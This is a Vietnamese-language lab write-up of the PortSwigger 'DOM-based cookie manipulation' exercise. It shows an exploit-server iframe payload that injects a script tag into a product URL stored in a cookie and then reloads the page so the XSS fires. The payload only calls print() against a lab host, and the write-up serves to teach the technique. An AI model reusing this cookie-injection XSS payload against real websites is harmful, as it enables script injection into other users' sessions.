 ## DOM-based cookie manipulation

> Lab này nói rõ rằng cookie bị tào lao nên để solve lab chúng ta cần inject vào cookie 1 đoạn script gây ra xss bằng cách gọi hàm print()

![](/imgs/DOM-BASED-VULNERABILITIES/12.png?raw=true)

Khi vào xem 1 sản phẩm bất kì cookie sẽ lưu lại link của sản phẩm cuối cùng đã xem

![](/imgs/DOM-BASED-VULNERABILITIES/13.png?raw=true)

Vậy exploit server sẽ có đoạn body như sau:

```html
<iframe src="https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!x)this.src='https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/';x='err';">
```

> ***/product?productId=1&'><script>print()</script>*** sẽ đóng đoạn truyền thêm param lại, và sau đó chuyển qua tới đoạn script.

> ***onload="if(!x)this.src='https://accc1fa81efb316280f40d10006d00f3.web-security-academy.net/';x='err'*** => ta sẽ chỉ ra 1 biến tào lao nào đó không tồn tại để thực hiện execute cái src thôi.

![](/imgs/DOM-BASED-VULNERABILITIES/14.png?raw=true)

### Tài liệu tham khảo
- [DOM-based Vuln: ](https://portswigger.net/web-security/dom-based)